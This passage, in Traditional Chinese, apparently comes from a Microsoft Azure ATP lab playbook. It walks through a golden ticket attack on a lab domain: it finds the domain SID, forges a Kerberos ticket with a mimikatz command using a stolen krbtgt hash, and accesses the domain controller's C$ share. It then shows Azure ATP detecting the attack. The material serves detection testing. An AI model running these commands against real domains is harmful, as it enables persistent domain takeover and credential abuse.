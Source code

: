    ``` cmd
   whoami /user
   ```

   ![黃金票證使用者的 SID](media/playbook-dominance-golden_whoamisid.png)

2. 找出並複製以上螢幕擷取畫面中反白顯示的網域 SID。

3. 使用 **mimikatz** 搭配複製的網域 SID，以及遭竊的 "krbtgt" 使用者的 NTLM 雜湊來產生 TGT。 以 JeffL 身分，將下列文字插入至 cmd.exe：

   ``` cmd
   mimikatz.exe "privilege::debug" "kerberos::golden /domain:contoso.azure /sid:S-1-5-21-2839646386-741382897-445212193 /krbtgt:c96537e5dca507ee7cfdede66d33103e /user:SamiraA /ticket:c:\temp\GTSamiraA_2018-11-28.kirbi /ptt" "exit"
   ```

   ![產生黃金票證](media/playbook-dominance-golden_generate.png)

   命令的 ```/ptt``` 部分可讓我們立即將產生的票證傳遞至記憶體。

4. 請確定認證位於記憶體中。  在主控台中執行 ```klist```。

   ![傳遞產生的票證後的 klist 結果](media/playbook-dominance-golden_klist.png)

5. 以攻擊者的身分，執行下列的傳遞票證命令，以對 DC 使用它：

   ``` cmd
   dir \\ContosoDC\c$
   ```

   成功！ 您為 SamiraA 產生了**假的**黃金票證。

   ![透過 mimikatz 執行黃金票證](media/playbook-dominance-golden_ptt.png)

它為什麼可行？ 黃金票證攻擊可行是因為產生的票證是使用我們先前收集到的 'KRBTGT' 金鑰正確地簽署。 此票證可讓我們以攻擊者的身分取得對 ContosoDC 的存取權，並將自己新增至任何我們想要使用的安全性群組。

#### <a name="golden-ticket--existing-user-attack-detection"></a>黃金票證 - 現有的使用者攻擊偵測

Azure ATP 會使用多種方法偵測這種類型的可疑攻擊。 在這個確實的案例中，Azure ATP 偵測到假票證加密降級。

![偵測到的黃金票證](media/playbook-dominance-golden_detected.png)

> [!Important]
>提醒。 只要攻擊者收集到的 KRBTGT 在環境中仍然有效，使用它產生的票證也會維持有效。 在此情況下，攻擊者可達到持續性的網域支配，直到 [KRBTGT 重設兩次](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/manage/ad-forest-recovery-resetting-the-krbtgt-password)為止。

## <a name="next-steps"></a>後續步驟

* [Azure ATP 安全性警示指南](suspicious-activity-guide.md)
* [使用 Azure ATP 調查橫向移動路徑](use-case-lateral-movement-path.md)
* [查看 Azure ATP 論壇！](https://aka.ms/azureatpcommunity)

## <a name="join-the-community"></a>加入社群

有更多問題嗎，或是想與其他人討論 Azure ATP 與相關的安全性？ 現在就加入 [Azure ATP 社群](https://techcommunity.microsoft.com/t5/Azure-Advanced-Threat-Protection/bd-p/AzureAdvancedThreatProtection)！